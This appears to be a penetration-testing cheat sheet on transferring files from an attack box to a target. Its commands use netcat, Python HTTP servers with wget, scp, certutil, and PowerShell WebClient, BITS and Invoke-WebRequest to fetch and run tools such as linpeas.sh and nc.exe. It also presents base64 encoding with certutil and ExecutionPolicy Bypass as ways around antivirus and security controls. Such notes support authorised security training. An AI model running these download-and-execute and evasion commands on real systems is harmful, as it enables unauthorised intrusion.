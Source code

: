 ### Transfering Files from your Attack Box to the Target
#### Netcat File Transfer
- Step 1
- Create a file on the target box in the /tmp directory
```
touch file.txt
```
- Set up the listener and direct STDOUT into the new file
```
nc -nlvp 1234 > file.txt
```
-Send the file
```
nc [target box ip] 1234 < file-to-be-transfered.txt
```

#### Python HTTP Server File Transfer
- Start the Python Server in the directory where the file is located that you want to transfer
- Use the ip address assigned to your box, if there is a vpn involved use the vpn address

```
python3 -m http.server
```
- Above is for python3
```
python -m SimpleHTTPServer 8000
```
- Above is for python
- You can optionally specify a port that you want the server to run on (it defaults to 8000)
```
python3 -m http.server 80
```
- Wget the file from the target box
```
wget http://172.16.6.1:8000/linpeas.sh
```
- Change permissions
```
chmod +x linpeas.sh
```
- Run the transfered file
```
./linpeas.sh
```

#### Secure Copy Protocol
- SCP a file from your attack box to a target box
```
scp /home/kali/Documents/linpeas.sh user@10.10.10.100:/tmp
```
- This command copies the file linpeas.sh to user on the target box and places it in the /tmp directory.
- SCP a file from your attack box while on the command line of a target box and place it in your present working directory.
```
scp jack@172.16.6.1:/home/kali/Documents/linpeas.sh .
```
### Windows Specific File Transfer
#### CertUtil.exe
- Windows has a built-in command line program called CertUtil.exe which is installed as part of Certificate Services and can be used to manage certificates in Windows.
- CertUtil is also known as living off land LOL binary which is a trusted preinstalled system tool.
- It can even bypass security features by base64 encoding the malware.
````
certutil -urlcache -split -f [url] [filename.extension]
````
- `-urlcache` Displays or deletes URL cache entries
- `-f` Forces fetching a specific URL and updating the cache
- `-split` Split embedded ASN.1 elements, and saves files on disk
- Using the encoding may help bypass security controls in certutil.  
- Using the `-decode` option we can download a Base-64 encoded malicious executable such as a text file and decode the executable to disk.  
- This can bypass antivirus, edge devices and filtering.  
- First we need to base64 encode the netcat executable.
````
certutil.exe -encode [inputfilename] [encoded output filename]
````
- To verify that the nc.txt file contains text, we can run the following command to print the first 10 lines to the terminal:
````
powershell -command “Get-Content nc.txt -Head 10”
````
- Now we have to transfer the text file to the target and decode it back to an executable.
````
certutil.exe -urlcache -split -f “http://[attack box ip]/nc.txt” nc.txt
````
- And the following command decodes the base64
````
certutil.exe -decode nc.txt nc.exe
````
#### Powershell downloads:System.Net.WebClient
- First example uses .NET class System.Net.WebClient.
- The following commands create a Powershell script on the remote Windows machine that can be used to download the file from the attack box:
````
echo $webclient = New-Object System.Net.WebClient > httpdownload.ps1
echo $webclient.DownloadFile("[Download URL]","[File Name]") >> httpdownload.ps1
````
- Note that you have to insert the download link and filename in the command on the last line and replace all the bold with the URL and the filename.
- Once verified that the PS script is created we can execute with:
````
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File httpdownload.ps1
````
- Alternatively we can also execute the command from a regular command line in Windows powershell to download files without creating a script
````
powershell -c "(new-object System.Net.WebClient).DownloadFile('[Download URL]','[File Name]')"
````
- The -c option executes the command provided within the double quotes with Powershell.
````
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://172.16.3.1/nc.exe','nc.exe')"
````
- The default execution policy is ‘Restricted’ which means the system will not run Powershell scripts.
- With the following powershell command we can get the current execution policy:
````
Get-ExecutionPolicy
````
- We can now set the policy to ‘Unrestricted’:
````
Set-ExecutionPolicy Unrestricted
````
#### Powershell Downloads: Start-BitsTransfer
- Another way to download files with Powershell is by using the Background Intelligent Transfer Service (BITS).
- The Start-BitsTransfer cmdlet creates a BITS transfer job to transfer one or more files between a client computer and a server.
- BITS has to be enabled on the target machine in order for it to work.
- The following command will download nc.exe from a remote web server to the C drive:
````
powershell Import-Module BitsTransfer;Start-BitsTransfer -Source http://[attack box ip]/nc.exe -Destination C:\
````
#### Powershell Downloads: Invoke-WebRequest
- The Invoke-WebRequest cmdlet is simple and easy to use and is available in Powershell version 3.0 and higher.
- Downloading large files with this method may cause memory issues.  
- Recommended to use the System.Net.Web.Client method for transferring large files.
````
powershell Invoke-WebRequest -Uri http://[ip attack box]/nc.exe -OutFile C:\nc.exe
````
- For this cmdlet to work the target host needs to have at least Powershell 3.0
- You can check the version of Powershell by using the following command 
````
powershell $PSVersionTable.PsVersion
````























































